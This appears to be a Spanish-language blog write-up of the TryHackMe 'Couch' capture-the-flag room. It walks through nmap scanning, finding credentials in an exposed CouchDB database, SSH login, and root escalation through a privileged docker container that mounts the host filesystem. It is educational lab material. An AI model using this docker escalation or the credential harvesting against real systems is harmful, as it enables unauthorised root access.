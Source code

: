 ```yaml
---
layout: single
title: Couch
excerpt: "Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge."
date: 2022-05-08
classes: wide
header:
  teaser: /assets/images/thm-writeup-couch/couch_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - Burp
  - Cyberchef
  - hash
  - gobuster
  - Web
---
```


![nmap](/assets/images/thm-writeup-couch/couch_logo.png)

[Link](https://tryhackme.com/room/couch "Couch")

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

---

### 1. Scan the machine. How many ports are open?

- Con el siguiente comando podemos explorar de los **65535** puertos cuales están abiertos:

```cs
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.245.171
```

![nmap](/assets/images/thm-writeup-couch/couch_nmap_1.png)

---

### 2. What is the database management system installed on the server?

- En la imagen anterior, se puede observar el administrador de bases de datos.

---

### 3. What port is the database management system running on?

- En la imagen del punto # 1 se observa el puerto de la base de datos.

---

### 4. What is the version of the management system installed on the server?

- Con el siguiente escaneo podemos obtener la información solicitada.

```cs
─# nmap -sCV -T4 -p22,5984 10.10.245.171

```

![nmap](/assets/images/thm-writeup-couch/couch_nmap_2.png)

---

### 5.  What is the path for the web administration tool for this database management system?

- Revisando en Google me encontré con la siguiente **url**, en la que se puede dar respuesta a esta pregunta -> <https://guide.couchdb.org/draft/tour.html>

![5](/assets/images/thm-writeup-couch/couch_utils.png)


### 6. What is the path to list all databases in the web browser of the database management system?

- Revisando en Google, me encontré con la siguiente **url** la que da respuesta a la pregunta -> <https://guide.couchdb.org/draft/tour.html>

![6](/assets/images/thm-writeup-couch/couch_allbd.png)

## 7. What are the credentials found in the web administration tool?

- Revisando en el panel de administrador encontramos la ruta **secret** cuyo nombre es muy revelador:

![6](/assets/images/thm-writeup-couch/couch_secret.png)

- Entramos en la ruta del punto anterior y encontramos unas credenciales que utilizamos vía **ssh** y logramos ingreso.

![6](/assets/images/thm-writeup-couch/couch_credentials.png)

![6](/assets/images/thm-writeup-couch/couch_ssh.png)

## 8. Compromise the machine and locate user.txt

> - En la ruta que estamos ubicados encotramos la bandera de usuario.

![6](/assets/images/thm-writeup-couch/couch_user.png)

## 9. Escalate privileges and obtain root.txt

`- Después de realizar varias consultas y ejecutar linpeas, encontré que con el siguiente comando se puede realizar una montura y luego realizar lectura del archivo **root.txt**:`

```cs
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # whoami
root
/ # cat /mnt/root/root.txt
```

![9](/assets/images/thm-writeup-couch/couch_root1.png)

![9](/assets/images/thm-writeup-couch/couch_root3.png)

---

Fuentes:

- Guide couchdb

https://guide.couchdb.org/draft/tour.html

- HackTricks

<https://book.hacktricks.xyz/network-services-pentesting/5984-pentesting-couchdb>

